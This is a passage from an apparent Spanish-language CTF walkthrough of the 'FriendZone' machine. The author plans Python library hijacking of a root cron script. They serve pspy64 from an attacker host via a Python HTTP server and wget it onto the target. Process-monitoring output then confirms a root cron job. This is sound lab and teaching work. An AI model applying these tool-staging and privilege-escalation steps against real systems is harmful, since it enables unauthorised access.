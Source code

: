 El script poco hace pero lo que si me llama la atención es el `import os` quizás podamos hacer un **Python Library Hijacking**. Supongo que este programa se ejecutará en un intervalo de tiempo -tarea cron-, ahora lo comprobaremos.

Usaré pspy64 para ver estas tareas y procesos que se realizan en el sistema. Me abro un servidor en python para pasar el **pspy64**.

```sh
❯ ls
 pspy64
❯ python3 -m http.server 9090
Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
```

Y desde remoto -máquina FriendZone- en /tmp:

```sh
friend@FriendZone:/tmp$ wget http://10.10.14.23:9090/pspy64
--2024-03-22 18:10:07--  http://10.10.14.23:9090/pspy64
Connecting to 10.10.14.23:9090... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                        100%[=================================================================================================>]   2.96M  3.78MB/s    in 0.8s    

2024-03-22 18:10:08 (3.78 MB/s) - ‘pspy64’ saved [3104768/3104768]

friend@FriendZone:/tmp$ ls
pspy64

# Añado permisos de ejecución:
friend@FriendZone:/tmp$ ls -l
total 3032
-rw-rw-r-- 1 friend friend 3104768 Mar 22 18:07 pspy64
friend@FriendZone:/tmp$ chmod +x pspy64
friend@FriendZone:/tmp$ ls -l
total 3032
-rwxrwxr-x 1 friend friend 3104768 Mar 22 18:07 pspy64
``` 

Lancemos la herramienta:

```sh
friend@FriendZone:/tmp$ ./pspy64

... SNIP ...
2024/03/22 18:13:35 CMD: UID=0     PID=2      | 
2024/03/22 18:13:35 CMD: UID=0     PID=1      | /sbin/init splash 
2024/03/22 18:14:01 CMD: UID=0     PID=17357  | /usr/bin/python /opt/server_admin/reporter.py 
2024/03/22 18:14:01 CMD: UID=0     PID=17356  | /bin/sh -c /opt/server_admin/reporter.py 
2024/03/22 18:14:01 CMD: UID=0     PID=17355  | /usr/sbin/CRON -f 
... SNIP ....
```
